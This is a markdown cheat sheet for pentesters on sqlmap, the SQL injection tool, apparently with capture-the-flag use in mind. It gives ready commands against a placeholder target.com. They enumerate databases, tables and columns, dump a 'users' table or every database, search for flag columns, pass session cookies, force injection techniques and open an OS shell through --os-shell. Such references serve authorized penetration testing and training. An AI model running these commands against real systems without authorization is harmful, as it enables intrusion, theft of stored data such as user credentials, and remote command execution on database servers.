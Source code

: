 # 📌 Sqlmap Cheat Sheet for Pentesters

Sqlmap is an open-source penetration testing tool that automates the detection and exploitation of SQL injection flaws.

---

## 🔧 Basic Usage

```shell
sqlmap -u "http://target.com/page.php?id=1" --batch
```

- `-u`: Target URL
- `--batch`: Non-interactive mode (default answers)

---

## 📄 Using a Request File (Burp Suite)

```shell
sqlmap -r request.txt --batch
```

- `-r`: Use an HTTP request file captured via Burp Suite.

---

## 📚 DB Enumeration

### Current User

```shell
sqlmap -u "http://target.com/page.php?id=1" --current-user --batch
```

### Current Database

```shell
sqlmap -u "http://target.com/page.php?id=1" --current-db --batch
```

### List All Databases

```shell
sqlmap -u "http://target.com/page.php?id=1" --dbs --batch
```

---

## 📂 Table & Column Enumeration

### List Tables in a Database

```shell
sqlmap -u "http://target.com/page.php?id=1" -D target_db --tables --batch
```

### List Columns in a Table

```shell
sqlmap -u "http://target.com/page.php?id=1" -D target_db -T users --columns --batch
```

---

## 🧪 Dumping Data

### Dump All from a Table

```shell
sqlmap -u "http://target.com/page.php?id=1" -D target_db -T users --dump --batch
```

### Dump Everything

```shell
sqlmap -u "http://target.com/page.php?id=1" --dump-all --batch
```

---

## 🧠 Advanced Options

### Check if Current User is DBA

```shell
sqlmap -u "http://target.com/page.php?id=1" --is-dba --batch
```

### Search for a Specific Column (e.g., flag)

```shell
sqlmap -u "http://target.com/page.php?id=1" --search -C flag --batch
```

---

## 🧰 DBMS-Specific Examples

### MySQL

```shell
sqlmap -u "http://target.com/page.php?id=1" --dbms=MySQL --batch --dump
```

### PostgreSQL

```shell
sqlmap -u "http://target.com/page.php?id=1" --dbms=PostgreSQL --batch --dump
```

### Microsoft SQL Server

```shell
sqlmap -u "http://target.com/page.php?id=1" --dbms="Microsoft SQL Server" --batch --dump
```

### Oracle

```shell
sqlmap -u "http://target.com/page.php?id=1" --dbms=Oracle --batch --dump
```

---

## 🖥️ OS Command Execution (if supported)

```shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell --batch
```

> Note: Only works if stacked queries or certain DBMS functions (e.g., `xp_cmdshell`) are available.

---

## 🔐 Authentication Options

```shell
sqlmap -u "http://target.com/page.php?id=1" --cookie="SESSIONID=abc123" --batch
```

---

## 🛠️ Technique Forcing

```shell
sqlmap -u "http://target.com/page.php?id=1" --technique=BEUSTQ --batch
```

- B: Boolean-based blind
- E: Error-based
- U: UNION-based
- S: Stacked queries
- T: Time-based
- Q: Inline queries

---

## 💡 Tips

- Use `--flush-session` to clear cached data if you're modifying parameters.
- Use `--risk=3 --level=5` for deeper tests (but more requests).
- Use `--threads=10` to speed up scans (if the server can handle it).

---

## 📌 Example: Oracle with Burp Request File

```shell
sqlmap -r burp_sqlmap-oracle.txt --dbms=Oracle --current-user --tables --batch
sqlmap -r burp_sqlmap-oracle.txt -D APP_USER -T flags --dump --batch
```

---

## 📎 Resources

- [sqlmap.org](http://sqlmap.org)
- `sqlmap --help` (for full CLI reference)